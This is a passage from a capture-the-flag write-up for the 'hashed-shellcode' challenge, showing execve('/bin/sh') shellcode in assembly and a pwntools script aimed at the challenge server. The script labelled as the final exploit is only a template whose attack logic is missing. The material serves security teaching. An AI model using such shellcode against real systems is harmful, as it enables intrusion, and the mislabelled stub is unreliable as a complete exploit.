 If we try this input in `hashed-shellcode` we indeed get `52 5E 0F 05` and the program waits for our second payload, we can then send a simple `execve("/bin/sh", 0, 0)` shellcode this time!
```asm
mov rax, 0x0068732f6e69622f // "/bin/sh\0"
push rax
mov rdi, rsp
xor esi, esi
xor edx, edx
mov eax, 0x3b
syscall
```

Here's the final exploit
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./hashed-shellcode"
args = []

io: process = None

speed = 0.2

def debug():
    gdb.attach(io, gdbscript=
    """

    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2107)

def launch_local():
    global file, io
    io = process([file, *args])
    debug()

launch = launch_local
launch = launch_remote

launch()

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = io.sendlineafter
sl = io.sendline
recv = io.recv
recvn = io.recvn
recvu = io.recvuntil

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)]

# Exploit goes here
```